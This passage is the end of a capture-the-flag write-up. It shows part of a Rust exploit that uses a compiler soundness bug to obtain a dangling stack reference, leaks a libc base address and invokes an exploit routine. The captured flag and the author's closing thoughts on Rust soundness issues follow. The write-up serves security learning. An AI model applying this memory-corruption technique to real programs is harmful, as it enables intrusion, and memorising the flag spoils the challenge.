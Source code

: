 ```rust
};

// Using the dyn trait so that the compiler will execute the
// get_dangling function in a higher stack frame. 
let my_a = get_trait_a();
// getting the random stack
let mut r = my_a.my_func();

// Just random content
let mut v: Vec<u64> = Vec::with_capacity(n);
v.push(1);
v.push(1);
v.push(1);

// Adding some content;
let mut b: Vec<u64> = Vec::with_capacity(n);
b.push(1);
b.push(2);
b.push(3);

// We need to write output buffers to get lib-c gadgets
my_print_str("Give me gadegts\n");
let lib_c_addr = r[62];
let lib_c = lib_c_addr - 628175;

my_print_str("===============\nlib_c base = ");
my_print(lib_c);
my_print_str("===============\n");

// Exploit
rec(&mut v, &mut b, r, n2, lib_c);

}
```

Finally we got the flag:
`CTF{InT3ndEd_8yP45_w45_g1tHu8_c0m_Ru5t_l4Ng_Ru5t_1ssue5_31287}`

## Final notes

We didn't end up using issue 31287, I'm not sure it would have been easier to exploit than our issue. The challenge was really fun and interesting, I learned a lot more Rust. However, as a hobbyist Rust developer, it was really scary and painful to discover how many soundness bugs the language has. Maybe it's time to start contributing to Rust.

